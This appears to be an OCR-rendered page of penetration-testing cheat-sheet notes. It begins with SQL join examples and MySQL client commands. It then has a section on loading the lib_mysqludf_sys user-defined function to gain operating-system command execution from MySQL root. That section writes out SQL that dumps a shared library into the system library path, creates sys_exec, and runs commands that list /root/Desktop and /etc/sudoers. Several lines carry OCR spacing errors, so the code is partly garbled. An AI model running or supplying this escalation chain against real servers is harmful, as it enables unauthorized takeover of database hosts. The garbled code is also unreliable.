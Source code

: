 ```
    #FULL All
    SELECT something FROM tableA A FULL OUTER JOIN tableB B ON A.KEY = B.KEY

    #A partial B
    SELECT something FROM tableA A LEFT JOIN tableB B on A.Key = B.Key

    #B Partial A
    SELECT something FROM tableA A RIGHT JOIN tableB B on A.Key = B.Key

    #A no B
    SELECT something FROM tableA A LEFT JOIN tableB B on A.Key = B.Key WHERE B.Key IS NULL

    # Outer
    SELECT something FROM tableA A FULL OUTER JOIN tableB B on A.Key = B.Key WHERE A.Key IS NULL OR B.Key IS NULL

    # Inner
    SELECT something FROM tableA A FULL INNER JOIN tableB B on A.Key = B.Key

```

#### MySQL

```
    [mysqldir]/bin/mysql-h hostname-u root --password=pass <database>

    select @@version
    select @@servername

    mysql> show databases;
    mysql> use [db name];
    mysql> show tables;
    mysql> describe [table name];
    mysql> SELECT * FROM [table name];
```

##### UDF Install for Command Execution

User Defined Functions by Platform

```
    udf/mysql/linux/32/lib_mysqludf_sys.so
    udf/mysql/linux/64/lib_mysqludf_sys.so
    udf/mysql/windows/32/lib_mysqludf_sys.dll
    udf/mysql/windows/64/lib_mysqludf_sys.dll
```

Source: http://www.iodigitalsec.com/mysql-root-to-system-root-with-udf-for-windows-and-linux/

Load MYSQLUDF for Linux

```
    use test;
    create table udf(line blob);
    insert into udfvalues(load_file('/tmp/udf/udf.so'));
    select * from udfinto dumpfile'/usr/lib/udf.so';
    create function sys_exec returns integer soname'udf.so';
    select sys_exec('id > /tmp/out; chownapache.apache /tmp/out');
    select sys_exec('ls -alh/root/Desktop/ >> /tmp/out');
    select sys_exec('ls /etc/sudoers>> /tmp/out');
```
